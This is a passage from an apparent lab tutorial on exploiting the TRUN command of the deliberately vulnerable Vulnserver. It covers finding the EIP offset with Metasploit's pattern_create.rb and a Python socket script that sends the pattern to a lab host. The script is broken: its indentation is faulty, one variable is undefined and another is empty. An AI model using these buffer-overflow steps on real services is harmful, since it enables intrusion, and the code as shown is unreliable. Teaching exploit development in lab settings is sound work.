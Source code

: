 - Talking about finding the offset, we will be looking for where we can overwrite the EIP
- Luckily metasploit has a tool for these and  it is located under the `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb` 
- this tool will generate a payload  that we are going to be sending to immunity and vulnserver

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

![](https://i.imgur.com/BFPYS3f.png)

- Now we can copy this output and modify the script we used in fuzzing to these :

```python
#!/usr/bin/python
 
import sys, socket
 
offset = ""

    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send(('TRUN /.:/' + offset))
        s.close()

    except:
        print ("Error Connecting to the server")
        sys.exit()
```
